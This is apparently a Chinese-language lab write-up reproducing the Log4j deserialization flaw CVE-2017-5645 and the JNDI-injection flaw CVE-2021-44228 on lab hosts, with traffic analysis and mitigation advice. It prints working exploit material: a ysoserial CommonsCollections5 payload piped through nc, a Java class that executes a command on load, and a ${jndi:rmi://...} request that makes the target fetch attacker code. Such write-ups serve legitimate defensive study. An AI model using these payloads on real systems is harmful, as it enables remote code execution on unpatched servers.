










**log4j 简介**
Log4j是Apache的一个开源项目，通过使用Log4j，我们可以控制日志信息输送的目的地是控制台、文件、GUI组件，甚至是套接口服务器、NT的事件记录器、UNIX Syslog守护进程等；我们也可以控制每一条日志的输出格式；通过定义每一条日志信息的级别，我们能够更加细致地控制日志的生成过程。最令人感兴趣的就是，这些可以通过一个配置文件来灵活地进行配置，而不需要修改应用的代码。

**log4j 漏洞原理**

- **缺乏输入过滤**：Log4j 的 `TcpSocketServer` 和 `UdpSocketServer` 组件在接收 Socket 传入的二进制日志事件时，直接使用 Java 原生的 `ObjectInputStream` 读取数据，未对数据的来源或类型做任何白名单校验与过滤。
- **Java 反序列化机制**：Java 在反序列化对象时会自动调用其 `readObject()` 方法。如果目标应用类路径（Classpath）中存在可利用的第三方依赖库（如 Apache Commons Collections），攻击者即可构造特定的 Gadget 链 Payload，在反序列化过程中触发任意系统命令执行。

## 复现（CVE-2017-5645）
根本原因：
- ①不可信数据的反序列化​​：TcpSocketServer/UdpSocketServer直接使用ObjectInputStream反序列化输入数据，未验证来源和内容。 ​​
- ②Java反序列化机制缺陷​​：Java默认反序列化会执行对象的readObject()方法。攻击者可构造恶意类（如利用 Apache Commons Collections 反序列化链，像InvokerTransformer、Gadget链等），在服务端反序列化时触发代码执行。

**流程**
```
ysoserial工具
     │
     ▼ 生成恶意序列化对象
[二进制payload] 
     │
     ▼ 通过管道传递
    nc命令
     │
     ▼ 发送到目标端口
目标服务（192.168.230.143:4712）
     │
     ▼ 服务尝试反序列化数据
触发CommonsCollections5利用链
     │
     ▼ 在目标服务器执行命令
touch /tmp/success （创建文件）
```

被攻击前：
	
执行攻击：
```bash
java -jar ysoserial-0.0.6-SNAPSHOT-all.jar CommonsCollections5 "touch /tmp/success" | nc 192.168.230.143 4712
```
- 
被攻击后 ：
	

### 日志流量
**流量分析**

==Java 原生序列化通常以：AC ED 00 05开始==
TCP 连接
    ↓
Java Object Serialization 二进制流
    ↓
Log4j TcpSocketServer 反序列化
    ↓
CommonsCollections5 链触发命令执行

	5695-5697  建立到 4712 端口的 TCP 连接
	5702       出现 Java 序列化流起始数据
	5702-5734  持续发送完整二进制序列化 Payload
	5735       目标持续确认接收
**日志**


## Log4j2 JNDI 注入（CVE-2021-44228）
**原理**：

- **机制**：Log4j2 本应只将日志内容当作纯文本，但其内置的 **Lookup 功能** 会对 `${...}` 语法进行**主动解析**。
- **触发**：当发现 `${jndi:ldap://...}` 时，组件自动发起 JNDI 远程查询，从攻击者控制的服务器下载并加载 `.class` 字节码文件，最终在 Java 虚拟机（JVM）中**动态执行**。
- **原罪**：没有区分好“普通数据”与“控制指令”，对用户传入的不可信字符串进行了不当的动态解析。

流程
```
用户可控输入
    ↓
应用写入 Log4j2 日志
    ↓
Log4j2 解析 ${jndi:...}
    ↓
通过 JNDI 访问 LDAP/RMI
    ↓
返回 Reference 和远程类地址
    ↓
目标 JVM 下载并加载恶意 class
    ↓
类初始化代码执行
```
攻击前
	

构造payload
```java 
// javac TouchFile.java
import java.lang.Runtime;
import java.lang.Process;

public class TouchFile {
    static {
        try {
            Runtime rt = Runtime.getRuntime();
            String[] commands = {"touch", "/tmp/success"};
            Process pc = rt.exec(commands);
            pc.waitFor();
        } catch (Exception e) {
            // do nothing
        }
    }
}
```

编译并开启http服务
	

开启rmi服务
	

构造请求
	


rmi服务器接收到请求并将受害者指引到攻击者恶意文件服务器地址
	

受害者访问下载恶意文件
	

docker 容器中执行命令创建success文件
	

### 日志流量
**流量分析**

```
1164  49884 -> 8983    [SYN]
1165  8983 -> 49884    [SYN, ACK]
1166  49884 -> 8983    [ACK]

1167  192.168.230.141:49884 -> 192.168.230.143:8983
      GET /solr/admin/cores?action=%24%7Bjndi%3Armi%3A%2F%2F192.168.230.141%3A9999%2FTouchFile%7D HTTP/1.1

1169  8983 -> 49884
      HTTP/1.1 400 Bad Request

1175-1188
      192.168.230.143:44354 <-> 192.168.230.141:9999
      RMI/JRMP 回连及数据交换

1189-1201
      192.168.230.143:54734 -> 192.168.230.141:9000
      GET /TouchFile.class HTTP/1.1
      HTTP/1.0 200 OK
      Content-Type: application/java-vm

1204-1231
      第二次 192.168.230.143 -> 192.168.230.141:9999 的 RMI 回连

1232-1241
      第二次请求 /TouchFile.class，并返回 200

3497-3498
      9999 RMI 会话关闭
```
**日志**

## 防御
- 升级 `log4j-core` 到官方修复版本，Java 8 环境至少使用 `2.17.1` 或更高版本。
- 升级 JDK，并禁止业务容器访问外部 LDAP、RMI 和未知 HTTP 服务。
- 无法立即升级时，可临时移除 JAR 中的 `JndiLookup.class`，但最终仍应升级依赖。